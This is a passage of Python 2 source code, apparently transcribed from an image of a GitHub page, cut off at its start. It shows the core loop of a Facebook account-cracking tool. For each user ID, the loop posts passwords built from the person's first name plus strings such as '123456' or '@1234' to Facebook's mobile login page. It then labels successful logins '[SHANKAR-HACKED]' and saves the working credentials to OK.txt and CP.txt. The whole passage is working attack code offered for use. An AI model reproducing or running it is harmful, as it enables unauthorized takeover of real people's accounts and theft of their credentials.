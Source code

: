                                 cp.close()
                                cps.append(uid + ps5)
                            else:
                                ps6 = name.lower().split(' ')[0] + '123456'
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    ps7 = name.lower().split(' ')[0] + '@1234'
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })
                                    sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        ps8 = name.lower().split(' ')[0] + '@12345'
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()
                                            oks.append(uid + ps8)
                                        elif 'checkpoint' in sp:
                                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            cp = open('CP.txt', 'a')
                                            cp.write(uid + '|' + ps8 + '\n')
                                            cp.close()
                                            cps.append(uid + ps8)
        except:
            pass
        